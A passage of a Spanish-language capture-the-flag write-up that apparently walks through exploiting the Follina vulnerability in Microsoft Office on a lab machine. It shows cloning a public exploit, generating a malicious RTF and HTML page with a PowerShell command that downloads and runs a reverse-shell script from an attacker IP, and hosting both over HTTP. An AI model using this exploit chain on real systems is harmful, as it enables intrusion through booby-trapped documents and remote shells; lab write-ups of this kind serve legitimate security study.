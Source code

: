 En el PDF mencionaban un CVE, el cual hace referencia a Follina, una vulnerabilidad reciente que afectó a Microsoft Office
Existen varios exploits en Github, así que voy a probarlo

```null
git clone https://github.com/chvancooten/follina.py

```

La sintaxis para utilizar esta herramienta es la siguiente:

```null
python3 follina.py -m command -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2:8080/Invoke-ConPtyShell.ps1')" -t rtf
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```

Esto genera un fichero en formato de texto enriquecido que en caso de que se interprete permitirá ejecutar comandos en powershell

Por tanto, si descargo ese html y lo comparto con un servicio http, cuando el usuario haga click en el link se ejecutará el exploit

```null
wget http://localhost/exploit.html
mv exploit.html index.html
python3 -m http.server 80
```

Desde el directorio /opt/nishang/Shells/ monto otro servidor por el puerto 8080 para hostear el Invoke-ConPtyShell.ps1

```null
cd /opt/nishang/Shells
python3 -m http.server 8080
```

Modifico ConPtyShell, añadiendo una línea al final, para que la Shell llegue a mi equipo, así como las filas y columnas

<img src="/writeups/assets/img/Outdated-htb/2.png" alt="">
